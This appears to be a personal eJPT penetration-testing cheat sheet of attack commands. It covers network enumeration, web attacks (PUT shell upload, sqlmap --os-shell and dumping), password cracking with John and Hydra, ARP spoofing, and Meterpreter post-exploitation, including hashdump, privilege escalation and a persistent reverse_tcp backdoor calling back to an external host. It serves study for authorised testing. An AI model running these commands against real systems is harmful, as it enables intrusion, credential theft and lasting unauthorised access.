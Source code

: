 # eJPT notes

## Routing

`ip route add ROUTETO via ROUTEFROM`  


## Enumeration

### whois

`whois site.com`

### Ping sweep

`fping -a -g 10.10.10.0/24 2>/dev/null  
nmap -sn 10.10.10.0/24`

### Nmap

```bash
# OS Detection, no ping
nmap -Pn -O 10.10.10.10

# def scripts, version check
nmap -sC -sV 10.10.10.10

# above + All ports
nmap -sC -sV -p- 10.10.10.10

# UDP version check
nmap -sU -sV 10.10.10.10
```

### nbtscan

```text
nbtscan -A 10.10.10.10
```

![](../.gitbook/assets/image%20%2863%29.png)

## Web Pentesting

### Banner Grabbing

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL for HTTPS services

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

`httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt`

### HTTP Verbs

`GET, POST, HEAD, PUT, DELETE, OPTIONS`

### PUT shells

```bash
wc -m shell.php
x shell.php

PUT /shell.php
Content-type: text/html
Content-length: x
```

### Directory and File Scanning

```bash
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

### Google-fu

```text
site:
intitle:
inurl:
filetype:
AND, OR, &, |, -
```

### SQLMap

```bash
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump

# banner grabbing
sqlmap -u http://10.10.10.10/view.php?id=1 -b

# dump specified database
sqlmap -u http://10.10.10.10/view.php?id=1 --current-db selfie4you --dump


```



## Exploitation

### Unshadow

This prepares a file for use with John the Ripper `unshadow passwd shadow > unshadow`

### John The Ripper

`john -wordlist /path/to/wordlist -users=users.txt hashfile`

### Hydra

```bash
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### SMB / SAMBA

```bash
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

### ARP spoofing

```text
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

### Metasploit

```bash
search x
use x
info
show options
show advanced
```

#### Meterpreter

```bash
background
sessions -l
sessions -i 1
sysinfo
ifconfig
route
getuid
getsystem
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

#### Meterpreter - persistence backdoor

```bash
# persistent backdoor - need meterpreter session
msf > use exploit/windows/local/s4u_persistence
msf (s4u_persistence) > set session 2
#session => 2
msf (s4u_persistence) > set trigger logon
#trigger => logon
msf (s4u_persistence) > set payload windows/meterpreter/reverse_tcp
msf (s4u_persistence) > set lhost 1.2.3.4
msf (s4u_persistence) > set lport 1234
msf (s4u_persistence) > exploit


msf (s4u_persistence) > use exploit/multi/handler
msf (handler) > set payload windows/meterpreter/reverse_tcp
msf (handler) > exploit

# once victim restarts and logons, we will get a meterpreter shell
```

